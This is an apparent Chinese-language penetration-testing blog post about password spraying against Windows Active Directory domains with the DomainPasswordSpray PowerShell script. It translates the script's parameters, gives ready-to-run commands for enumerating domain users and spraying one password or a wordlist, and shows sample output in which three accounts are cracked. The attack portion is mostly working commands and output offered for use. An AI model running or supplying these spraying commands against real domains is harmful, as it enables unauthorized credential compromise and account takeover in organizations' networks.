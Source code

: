 ```yaml
---
layout: post
title:  "Windows域渗透 - 用户密码枚举"
date:   2018-05-02
categories: 内网渗透
permalink: /archivers/2018-05-02/1
description: "推荐一个Powershell脚本"
---
```

推荐一个Powershell脚本
<!--more-->
* 目录
{:toc}

## 0x00 前言

在进行Windows域渗透的时候，面对庞大的用户账号，不知该从何下手，扫描网络服务有怕搞出大动静，肿么办呢？

## 0x01 Powershell

目前已经有很多Powershell集合脚本，用于域渗透简直舒爽

今天推荐一款名字叫`DomainPasswordSpray.ps1`的脚本，主要原理是先来抓取域用户账号，然后指定密码字典进行域认证。认证通过的就是密码正确的了。

![0x00][0x00]

**GitHub项目地址：https://github.com/dafthack/DomainPasswordSpray**

由于作者的脚本有一个小瑕疵，故此我改了一下，避免抛出了一些错误。

![0x01][0x01]

**优化后的地址：http://payloads.online/scripts/Invoke-DomainPasswordSpray.txt**


## 0x02 参数说明

在代码的开头就已经有介绍了，我简单汉化一下。

    
描述：该模块主要用于从域中收集用户列表。

* 参数： `Domain` 指定要测试的域名
* 参数： `RemoveDisabled` 尝试从用户列表删除禁用的账户  
* 参数： `RemovePotentialLockouts` 删除锁定账户 
* 参数： `UserList` 自定义用户列表(字典)。 如果未指定，这将自动从域中获取
* 参数： `Password` 指定单个密码进行口令测试
* 参数： `PasswordList` 指定一个密码字典
* 参数： `OutFile` 将结果保存到某个文件
* 参数： `Force` 当枚举出第一个后继续枚举，不询问

## 0x03 使用说明

使用例子：

`C:\PS> Get-DomainUserList`

该命令将从域中收集用户列表。
    
`C:\PS> Get-DomainUserList -Domain 域名 -RemoveDisabled -RemovePotentialLockouts | Out-File -Encoding ascii userlist.txt`

该命令将收集域“域名”中的用户列表，包括任何未被禁用且未接近锁定状态的帐户。 它会将结果写入“userlist.txt”文件中

`C:\PS> Invoke-DomainPasswordSpray -Password Winter2016`

该命令将会从域环境中获取用户名，然后逐个以密码`Winter2016`进行认证枚举

 
`C:\PS> Invoke-DomainPasswordSpray -UserList users.txt -Domain 域名 -PasswordList passlist.txt -OutFile sprayed-creds.txt`

该命令将会从`users.txt`中提取用户名，与`passlist.txt`中的密码对照成一对口令，进行域认证枚举，登录成功的结果将会输出到`sprayed-creds.txt`

## 0x04 实战

### 获取域环境中的用户列表

**命令：**`C:\PS> Get-DomainUserList | Out-File -Encoding ascii userlist.txt`

**输出：**

```
[*] Current domain is compatible with Fine-Grained Password Policy.
[*] Now creating a list of users to spray...
[*] There appears to be no lockout policy.
[*] There are 8 total users found.
[*] Created a userlist containing 8 users gathered from the current user's domain
```

获取的用户名：

```
C:\PS> type .\userlist.txt
Administrator
Guest
liyingzhe
krbtgt
Hack
testPass
webManager
dba
```

### 密码枚举

![0x02][0x02]

**命令：** `C:\PS> Invoke-DomainPasswordSpray -Domain 域名 -Password w!23456 -OutFile sprayed-creds.txt`

**输出：**

```
[*] Current domain is compatible with Fine-Grained Password Policy.
[*] Now creating a list of users to spray...
[*] There appears to be no lockout policy.
[*] Removing disabled users from list.
[*] There are 6 total users found.
[*] Removing users within 1 attempt of locking out from list.
[*] Created a userlist containing 6 users gathered from the current user's domain
[*] Password spraying has begun. Current time is 18:45
[*] This might take a while depending on the total number of users
1 of 6 users tested2 of 6 users tested3 of 6 users tested[*] SUCCESS! User:testPass Password:w!23456
4 of 6 users tested[*] SUCCESS! User:webManager Password:w!23456
5 of 6 users tested[*] SUCCESS! User:dba Password:w!23456
6 of 6 users tested[*] Password spraying is complete
[*] Any passwords that were successfully sprayed have been output to sprayed-creds.txt
```

枚举的结果：

```
C:\PS > type .\sprayed-creds.txt
testPass:w!23456
webManager:w!23456
dba:w!23456
```

[0x00]: https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2018-05-02/0x00.png
[0x01]: https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2018-05-02/0x01.png
[0x02]: https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2018-05-02/0x02.png
